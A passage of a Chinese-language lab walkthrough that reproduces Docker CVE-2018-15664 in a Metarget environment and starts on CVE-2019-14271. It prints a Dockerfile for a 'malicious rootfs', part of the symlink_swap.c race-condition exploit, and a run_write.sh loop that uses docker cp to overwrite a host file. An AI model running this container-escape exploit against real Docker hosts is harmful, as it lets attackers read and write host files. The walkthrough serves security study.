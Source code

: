 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./metarget cnv install cve-2018-15664<br>``` |

下载并解压 [PoC](https://github.com/brant-ruan/cloud-native-security-book/tree/main/code/0302-%e5%bc%80%e5%8f%91%e4%be%a7%e6%94%bb%e5%87%bb/02-CVE-2018-15664/symlink_race)

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101858440.png-water_print](assets/1699410413-f4aa47099c1f555a04b5cba2dac0eeb5 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101858440.png-water_print")

其中， build 目录包含了用来编译 EXP 的 Dockerfile 和漏洞利用源代码 symlink\_swap.c

注意

构建镜像时，在容器内安装 gcc 时报错，可以先在宿主机将 symlink\_swap 编译好，再 COPY 到容器中。

修改后的 Dockerfile：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```dockerfile<br># Build the binary.<br>FROM opensuse/tumbleweed<br># RUN zypper in -y gcc glibc-devel-static<br>RUN mkdir /builddir<br>COPY symlink_swap.c /builddir/symlink_swap.c<br># RUN gcc -Wall -Werror -static -lpthread -o /builddir/symlink_swap /builddir/symlink_swap.c<br>COPY symlink_swap /builddir/symlink_swap<br><br># Set up our malicious rootfs.<br>FROM opensuse/tumbleweed<br>ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flag<br>ARG SYMSWAP_PATH=/totally_safe_path<br>RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"<br>COPY --from=0 /builddir/symlink_swap /symlink_swap<br>ENTRYPOINT ["/symlink_swap"]<br>``` |

Dockerfile 的主要内容是构建漏洞利用程序，并将其放在容器的根目录下，并在根目录下创建一个 `w00t_w00t_im_a_flag` 文件，内容为：`FAILED -- INSIDE CONTAINER PATH`。容器启动后执行的程序(`Entrypoint`) 即为：symlink\_swap。

Symlink\_swap.c 内容：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```c<br>/*<br>     * Now create a symlink to "/" (which will resolve to the host's root if we<br>     * win the race) and a dummy directory at stash_path for us to swap with.<br>     * We use a directory to remove the possibility of ENOTDIR which reduces<br>     * the chance of us winning.<br>     */<br>    if (symlink("/", symlink_path) < 0)<br>        bail("create symlink_path");<br>    if (mkdir(stash_path, 0755) < 0)<br>        bail("mkdir stash_path");<br><br>    /* Now we do a RENAME_EXCHANGE forever. */<br>    for (;;) {<br>        int err = rrenameat2(AT_FDCWD, symlink_path,<br>                            AT_FDCWD, stash_path, RENAME_EXCHANGE);<br>        if (err < 0)<br>            perror("symlink_swap: rename exchange failed");<br>    }<br>    return 0;<br>}<br>``` |

在容器内创建指向根目录的符号链接，并不断地交换符号链接(由命令行参数传入，如「totaly\_safe\_path」)与一个正常的目录(如：「totaly\_safe\_path-stashed」)的名字。

run\_read.sh : 实现读取宿主机文件内容的 shell 脚本

run\_write.sh : 实现在宿主机写文件的 shell 脚本

以 `run_write.sh` 为例：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```sh<br>SYMSWAP_PATH=/totally_safe_path<br>SYMSWAP_TARGET=/w00t_w00t_im_a_flag<br><br># Create our flag.<br>echo "FAILED -- HOST FILE UNCHANGED" \| sudo tee "$SYMSWAP_TARGET"<br>sudo chmod 0444 "$SYMSWAP_TARGET"<br><br># Run and build the malicious image.<br>docker build -t cyphar/symlink_swap \<br>	--build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \<br>	--build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/<br>ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")<br><br>echo "SUCCESS -- HOST FILE CHANGED" \| tee localpath<br><br># Now continually try to copy the files.<br>while true<br>do<br>	docker cp localpath "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET"<br>done<br>``` |

run\_write.sh 启动后恶意容器运行，然后不断执行 docker cp 命令

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101901056.png-water_print](assets/1699410413-f9b5e94fd16e801a9c386cdd18302074 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101901056.png-water_print")

### [](#13-cve-2019-14271)1.3 CVE-2019-14271

影响 Docker 19.03.x before 19.03.1

#### [](#131-%E5%8E%9F%E7%90%86)1.3.1 原理

docker cp 命令依赖的 docker-tar 组件会加载容器内部的 nsswitch 动态链接库，攻击者可以通过劫持容器内部的 nsswitch 来实现代码的注入，获得宿主机上的 root 权限的代码执行能力。
